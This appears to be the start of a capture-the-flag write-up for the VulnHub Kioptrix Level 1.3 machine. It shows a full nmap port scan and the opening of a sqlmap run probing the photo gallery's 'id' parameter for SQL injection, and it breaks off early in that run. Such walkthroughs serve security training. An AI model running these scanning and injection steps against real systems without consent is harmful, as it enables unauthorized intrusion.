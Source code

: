 # Kioptrix Level 1.3 | VulnHub
https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

### 1. Scan
```bash
kali@kali:~$ nmap -A -T4 -p- kioptrix3.com
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 02:47 EDT
Nmap scan report for kioptrix3.com (10.1.1.7)
Host is up (0.0030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
```
The machine is running SSH and Apache.

### 2. Check out the web server
The website is fairly simple with a few pages - a blog, photo gallery and a login form. The gallery CMS is apparently custom. Starting out there, it is clear the gallery is based on a database backend, and images can be sorted by various columns in those tables. Firstly identify an injectable parameter:
```bash
kali@kali:~/Desktop$ sqlmap -r gallery.request 
        ___
       __H__                                                                                                                                                                                        
 ___ ___[)]_____ ___ ___  {1.4.8#stable}                                                            
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|                                 
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:59:10 /2020-10-28/

[02:59:10] [INFO] parsing HTTP request from 'gallery.request'
[02:59:10] [INFO] testing connection to the target URL
[02:59:11] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[02:59:11] [INFO] checking if the target is protected by some kind of WAF/IPS
[02:59:11] [INFO] testing if the target URL content is stable
[02:59:11] [INFO] target URL content is stable
[02:59:11] [INFO] testing if GET parameter 'id' is dynamic
[02:59:11] [INFO] GET parameter 'id' appears to be dynamic
```